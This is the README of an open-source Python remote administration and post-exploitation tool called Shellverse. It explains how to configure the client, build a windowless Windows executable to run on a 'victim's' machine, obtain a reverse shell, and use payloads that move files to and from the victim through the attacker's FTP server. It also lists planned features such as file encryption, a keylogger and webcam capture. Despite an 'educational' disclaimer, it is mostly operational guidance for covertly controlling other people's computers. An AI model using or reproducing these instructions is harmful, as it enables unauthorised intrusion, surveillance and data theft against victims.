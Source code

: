 # Shellverse

## Overview

- Shellverse is a multi-client and multi-threaded Remote Administration Tool and post-exploitation tool.
- Shellverse gives the attacker a reverse shell together with configured payloads once it has been installed on the victims machine.
- **Disclaimer**: Accessing a computer without authorization or permission is illegal, atleast in my country it is. This should only be used for educational / proof of concept purpose.
- I wote most of this code years ago when learning python, i'll try to clean the code as much as I can. Feel free to contribute by writing payloads and making pull requests.

## Features
* [x] Reverse shell.
* [ ] Download files from the client's PC
* [ ] Upload files to the client's PC
* [ ] webcam snap & webcam livestream.
* [ ] record audio & stream audio.
* [ ] Take screenshots 
* [ ] Encrypt files on the clients PC.
* [ ] Change the client's wallpaper.
* [ ] Keylogger.

## Supported Platforms
- The `reverse shell` payload has been tested on linux & windows computers.
- The other payloads such as `screenshot` & `wallpaper-changing` have only been tested on windows.

## Setup/ Installation requirements
### Requirements
* Python 3.
* `pip install -r requirements.txt`

## Usage

### Server
- `python server.py` for the server to listen for connections.
- Enter Host/Server address, to get an interactive prompt where you are able to view connected clients, select a specific client, and get a reverse shell

For help
```
shellverse> help
help:	Shows this help list
list:	show  connected targets
about:	print details about shellverse
show payloads:	show additional payloads
select:	Selects a target by its index. Takes index as a parameter
quit:	Stops current connection with a target. To be used when target is selected
shutdown:	Shuts server down
```
### Client & server - getting a reverse shell.
- First edit the clients configurations in `client/settings.py`.
```python 
SERVER_ADDR= '127.0.0.1' # server address
SERVER_PORT=999 #server port, should be an integer not string
RETRY_TIME=5 #in seconds
```
- `python shellverse.py` on the client machine to make a tcp socket connection to the server
- check the running server instance and connect to client using `select` command.

### Payloads
- The new version of shellverse makes it very easy to use and write new payloads.
- Refer to `payloads/abstract_payload_handler.py` to see how to write a payload class.
- To uses a payload add it to the payload registry in `payloads/payload_register.py`.
- Shellverse comes with some payload examples, you can easily add yours by implementing `AbstractPayloadHandler` interface.
- Will document existing payloads usage here
```
shellverse> show payloads

[1]ftp-upload: uploads a file from the attackers ftp server to the victims computer.
          usage~ upload ftpserver ftpuser ftp-password file-path

[2]ftp-download: downloads a file/folder from the victims computer to our ftp server.
            usage~download ftpserver ftpuser ftp-password file-path
```

### Making a windows executable and getting a reverse connection
- You can make a noconsole exe to run on the target.
`pyinstaller --noconsole --onefile shellverse.py`
run `pyinstaller --help` for more options such as an icon for the exe file.

### Getting a reverse connection
- Execute the exe in the targets machine, run the server script on the Host machine and a wait a reverse connection.
```
Enter Host address>192.168.0.24
shellverse> 
Connection has been established: DESKTOP-R5UIHJE (192.168.0.31)
```

## Contributing
- Fork  the repo, add payloads(using the documented method) / fix bugs or any other contribution, and make a pull request.

## License
This project is Licensed under the MIT open source license
